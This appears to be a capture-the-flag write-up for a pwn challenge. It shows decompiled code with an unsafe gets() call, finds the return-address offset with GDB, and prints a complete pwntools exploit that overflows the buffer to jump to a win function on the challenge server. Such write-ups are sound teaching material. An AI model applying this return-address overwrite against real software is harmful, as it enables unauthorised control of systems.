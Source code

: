 ```
  puts("Barista: \'What will you have?\'");
  gets(local_2c);
  printf("Barista: \'%s... interesting choice.\'\n",local_2c);
  puts("Brewing...");
  return;
}
```
From Ghidra, we can see a function named `brew_coffee()`, which is our win function that prints the flag. Since the program uses `gets()`, we can input a large value to overflow the buffer, overwrite the return address, and change the control flow to the `brew_coffee()` function.

By the cyclic( ), we can find the offset to the return address by Analyzing it in GDB .
```
>>> cyclic_find(0x6161616c)  
44
```
the offset is found to be 44 and the brew_coffee( ) function address is 0x0804856b. 

Exploit.py
```
from pwn import *  
context.log_level = 'critical'  
elf = context.binary = ELF('./first_visit')  
  
gdbscript = '''  
break *main  
continue  
'''  
  
if args.REMOTE:  
   p = remote('chals1.apoorvctf.xyz', 3001)  
elif args.GDB:  
    p = gdb.debug(elf.path, gdbscript=gdbscript)  
else:  
   p = process(elf.path)     
  
log.info("\\\\n==== start exploit ====\\\\n")  
p.recvuntil(b"'What will you have?'")  
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaak\x85\x04\x08'  
p.sendline(payload)  
print(p.recv())  
p.interactive()
```
note : the address is in little-endian.

